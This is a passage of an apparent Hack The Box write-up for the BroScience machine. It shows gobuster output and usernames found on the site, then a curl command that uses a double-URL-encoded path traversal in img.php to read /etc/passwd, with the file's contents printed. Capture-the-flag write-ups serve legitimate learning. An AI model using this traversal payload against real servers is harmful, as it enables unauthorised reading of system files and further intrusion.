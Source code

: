 ``` bash
/images               (Status: 301) [Size: 319] [--> https://broscience.htb/images/]
/includes             (Status: 301) [Size: 321] [--> https://broscience.htb/includes/]
/manual               (Status: 301) [Size: 319] [--> https://broscience.htb/manual/]
/javascript           (Status: 301) [Size: 323] [--> https://broscience.htb/javascript/]
/styles               (Status: 301) [Size: 319] [--> https://broscience.htb/styles/]
```

* While exploring the web we find several usernames: _administrator, michael, john_
* Checking the directories found with gobuster we find a file _img.php_ which throws an error:
* Error: Missing 'path' parameter.

![image](./assets/img/broscience_missingPath.png)

* So probably in php it needs something like this: **$_GET['path']**
* Playing with the path tried to display /etc/passwd but it doesn't work
* Double URL encoding works so we end up displaying /etc/passwd with curl

``` bash
❯ curl -k 'https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
```